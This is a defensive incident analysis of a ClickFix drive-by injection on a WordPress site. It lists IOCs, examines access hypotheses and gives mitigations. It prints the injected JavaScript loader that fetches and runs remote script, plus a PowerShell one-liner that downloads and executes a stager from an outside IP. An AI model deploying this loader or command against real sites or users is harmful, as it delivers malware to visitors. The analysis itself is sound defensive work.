 ## breakersfwb.com Drive-By Target Analysis
*9 Sept 2025, K.Tonkin & R. Halim*

This document outlines a more detailed analysis into the JavaScript injection shown on `https://www.breakersfwb.com`.

> **WARNING!** Do not directly interact with any IOCs, code samples, or malicious payloads outside of a controlled and
> isolated environment.


## Relevant Indicators of Compromise (IOCs)

| Type   | Indicator                                                        |  Description                          |
|--------|------------------------------------------------------------------|---------------------------------------|
| Domain | `getfix[.]win`                                                   | Primary ClickFix payload delivery     |
| Domain | `ncloud[.]icu`                                                   | Fake Cloudflare overlay iframe source |
| Domain | `2no.co`                                                         | Intermediate redirector               |
| IP     | `155[.]94.155.25`                                                | PowerShell stager host                |
| URL    | `https://getfix[.]win/jsrepo?rnd=<random_number>&ts=<timestamp>` | Dynamic script loader                 |
| URL    | `https://ncloud.icu/?ref=<target_domain>`                        | Overlay splash page                   |


## Analysis

The injected JavaScript on https://www.breakersfwb.com is a textbook example of the ClickFix technique: a social engineering method that exploits users’ impulse to “fix” perceived issues. This campaign weaponized trust in the Breakers website to deliver malware via a deceptive overlay.

Each page on the site was modified to include a <script> block containing an Immediately Invoked Function Expression (IIFE). This function dynamically loads a second-stage script from getfix.win, using randomized query parameters to evade caching and track victim engagement.  

Below are the contents of the JavaScript block, which shows the next sequence to load malicious JavaScript into the browser.

```html
<script>
(function() {
    if (document.readyState !== 'loading') {
        loadScript();
    } else {
        document.addEventListener('DOMContentLoaded', loadScript, {once: true});
    }

    function loadScript() {
        var url = 'https://getfix.win/jsrepo?rnd=' + Math.random() + '&ts=' + Date.now();
        
        fetch(url, {
            method: 'GET',
            cache: 'no-store',
            credentials: 'same-origin'
        })
        .then(response => {
            if (!response.ok) throw new Error('HTTP ' + response.status);
            return response.text();
        })
        .then(data => {
            var script = document.createElement('script');
            script.textContent = data.trim();
            document.head.appendChild(script);
            
            if (document.readyState === 'complete' || document.readyState === 'interactive') {
                document.dispatchEvent(new Event('DOMContentLoaded'));
            }
        })
        .catch(error => {
            console.warn('Script load failed:', error.message);
        });
    }
})();
</script>
```

The script fetches obfuscated JavaScript, but only if the User-Agent string indicates a Windows OS; an intentional filter to target systems vulnerable to PowerShell exploitation. The `loadScript()` function creates a fetch request to `https://getfix[.]win/jsrepo`, which injects parameters using `Math.random()`. This selective targeting is a hallmark of ClickFix: it avoids detection by automated scanners and focuses on real users who are likely to follow instructions.

However, this domain only selectively returns JavaScript code, based on the User-Agent string sent to the URL. Namely,
JavaScript is only returned when the User-Agent indicates the OS is running Windows, which can be tested by utilizing
Chrome DevTools and Network Conditions to change the user agent.

![Figure 1. User agent using the "Chrome - Mac" profile](./artifacts/screenshots/breakers-driveby-1.png)
*Figure 1. User agent using the "Chrome - Mac" profile*

![Figure 2. User agent using the "Chrome - Windows" profile. Note the presence of obfuscated JavaScript.](./artifacts/screenshots/breakers-driveby-2.png)
*Figure 2. User agent using the "Chrome - Windows" profile. Note the presence of obfuscated JavaScript.*

It is worth noting that the payload this returns is dynamic and seems to be actively updated over time.

This obfuscated JavaScript is then injected into another `<script>` tag in the DOM; this is, at this point, all done
client side and not from the WordPress template PHP injecting more code. This code is heavily obfuscated, but the
[Obfuscator.io Deobfuscator tool](https://obf-io.deobfuscate.io/) available online is able to deobfuscate most of the
code, a full copy of which can be found in [artifacts/scripts/getwin-js-deobfuscate.js.bak](./artifacts/scripts/getwin-js-deobfuscate.js.bak).

![Figure 3. Deobfuscator Tool](./artifacts/screenshots/breakers-driveby-3.png)
*Figure 3. Deobfuscator Tool*

Once the obfuscated script is injected, it creates an <iframe> pointing to ncloud.icu, passing the current domain (breakersfwb.com) as a referrer. This iframe overlays a fake Cloudflare “verification” page—visually convincing and designed to appear legitimate. The browser URL remains unchanged, preserving trust, and the overlay includes the victim’s domain to reinforce authenticity. This is a core ClickFix tactic: simulate a familiar security prompt, then guide the user into executing a malicious command.

![Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"](./artifacts/screenshots/breakers-driveby-4.png)
*Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"*

From here, the victim is asked to click the fake Turnstile checkbox, which then copies a malicious PowerShell command
which the victim would then run in the Windows Run dialog, which will download and execute another stager that runs on
the victim's local machine.

```ps
# this PowerShell command gets copied to the clipboard upon checking the fake verification box.
powershell -w h -nop -c iex(iwr -Uri 155.94.155[.]25 -UseBasicParsing)
```

Based on a quick analysis of the ran PowerShell command, it pulls another PowerShell script which is executed, which
downloads shellcode that is executed on the victim machine. Further analysis can be started from the *References* section.


## Initial Access Hypotheses

While we were able to analyze what happens between the injected JavaScript being loaded into the webpage to victim
machine execution, the question stands... how did the initial `<script>` tag end up in the first place?

Three possible hypotheses arise, each based on my personal experience with WordPress site administration.

1. A WordPress plugin installed on the site was compromised
2. The current WordPress theme was compromised, and custom code was added
3. A user that has access to this site's WordPress admin was compromised, and threat actors used this user to add code

### Hypothesis 1: WordPress Plugin

A [WordPress plugin](https://developer.wordpress.org/plugins/intro/what-is-a-plugin/) extends the base functionality of
a standard WordPress install with new functions. Normally, for website admins, this may range from custom components,
such as a contact form, to optimizing how WordPress processes different information. What is important is that these
plugins are often developed by third parties (e.g. *not* developed by the developers of WordPress themselves), and so
may not have the same coding standards as WordPress.

This, combined with potentially outdated PHP versions or exploits against WordPress itself, opens up attack vectors for
attackers to compromise a WordPress site. For example, an outdated plugin installed on the Breakers may have been exploited
to either give attackers access to the backend, or allow for what is called a stored [Self-XSS](https://en.wikipedia.org/wiki/Self-XSS)
attack, where the JavaScript code is stored, rendered in the HTML that is sent to the client, and when the browser reads
the HTML, executes the JavaScript code.

To further prove or disprove this hypothesis, one would likely need to know the versions of the plugins running on this
WordPress instance, and compare it to published CVEs against these plugins. For custom developed plugins, code review
would need to be accomplished to ensure that code follows best security practices.

To mitigate future kinds of attacks, recommendations would include installing a WordPress security plugin, installing
an antimalware scanner on the hosting infrastructure, and ensuring that plugins are kept up-to-date.


### Hypothesis 2: WordPress Theme

A [WordPress theme](https://developer.wordpress.org/themes/getting-started/what-is-a-theme/) allows the owner of a WordPress
website to customize the design of their website. In essence, it controls the styles and layout of a website, which can
also include adding additional HTML.

Based on some earlier analysi, this WordPress site is using a custom theme, which isn't uncommon. What
may have happened is that the theme was updated to include the malicious `<script>` tag in every page, which often results
from a change in the theme's `theme.php` file to do so. This would be in conjunction with either the first hypothesis
(in which an attacker would need to exploit a plugin to gain access to the backend), or with the third hypothesis (in
which an attacker would need to gain access to a user's login credentials).

To further prove or disprove this hypothesis, one would need to look at the currently installed theme's files and ensure
that there is no malicious code added to the theme files.


### Hypothesis 3: User Brute-Forcing

WordPress allows for multiple users to administer the website. While there are many ways for an instance to disclose
which users are registered on the site, one way that was found was through the `/wp-json` endpoint. This endpoint was
introduced as part of the introduction of the Block Editor, the new implementation of the default WordPress editor. This
allows both built-in blocks and blocks provided by plugins to interact with WordPress' backend using a [JSON REST API](https://developer.wordpress.org/rest-api/).

By navigating to `https://www.breakersfwb.com/wp-json/wp/v2/users`, anyone can, without logging in, see the registered
users of this WordPress site. This is critical because it provides OSINT information about the users that may manage
this website, and their associated user IDs. This makes it easier to conduct blatant username/password guessing (more
likely than not, WordPress usernames are the same as their slugs as disclosed by this endpoint), or could be used in
combination with other OSINT techniques to conduct a phishing campaign (for example, you could paste the name provided
in this API to, say, Facebook or Linkedin).

There isn't a default, built-in way to disable this endpoint [as it is by design](https://www.reddit.com/r/ProWordPress/comments/1clp2dm/comment/l2v1nu2),
especially since there are other methods to disclose usernames of this WordPress site. However, there are ways to extend the functionality of WordPress to disable this specific endpoint. Another recommendation would be to change passwords of all users on the Breakers website, and install a plugin
that augments the login features of WordPress to prevent brute forcing of login pages among other features. For example,
the popular plugin (All-In-One Security)[https://wordpress.com/plugins/all-in-one-wp-security-and-firewall] bundles
multiple security features into one plugin at the application layer.


## References

- [tria.ge Public Analysis Report](https://tria.ge/250908-c4qkga1xhx/behavioral1)
- [tria.ge Sandbox Report](./artifacts/ncloud[.]icu-sandbox-report.pdf)
- [tria.ge pcap](./artifacts/ncloud[.]icu-sandbox-capture.pcapng)
